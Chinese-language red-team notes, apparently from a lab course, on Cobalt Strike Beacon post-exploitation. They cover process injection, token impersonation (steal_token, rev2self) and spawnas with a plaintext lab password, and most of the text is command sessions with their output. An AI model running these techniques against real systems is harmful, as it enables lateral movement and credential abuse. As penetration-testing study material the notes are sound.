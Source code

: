 可以迁移当前用户的任意进程

迁移到其他用户的进程需要admin权限

```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking

beacon> inject 3320 x64 tcp-4444-local
[+] established link to child beacon: 10.10.17.231
```

参数解释
```
3320 is the PID of the target process.

x64 is the architecture of that process.

tcp-4444-local is the name of the listener.
```

不要进行跨架构迁移，例如 x86 -> x64 或 x64 -> x86


# Token Impersonation

```steal_token```命令将模拟目标进程的访问令牌

和make_token一样，它适用于跨网络的资源访问，但不适用于本地操作。

使用```rev2self```来释放模拟的token

```
beacon> ls \\srv-2\c$
[-] could not open \\srv-2\c$\*: 5

beacon> steal_token 3320
[+] Impersonated DEV\jking

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin

beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 20 bytes
```

# SpawnAs


```spawnas```命令将使用用户的明文密码生成一个新进程，并将 Beacon 有效负载注入其中

会在磁盘上创建整个用户配置文件

```
beacon> spawnas DEV\jking Purpl3Drag0n tcp-4444-local
[+] established link to child beacon: 10.10.17.231
```

一个常见的错误是，在某个目录下没有写权限
```
beacon> spawnas DEV\jking Purpl3Drag0n tcp-4444-local
[-] could not run C:\Windows\system32\rundll32.exe as DEV\jking: 267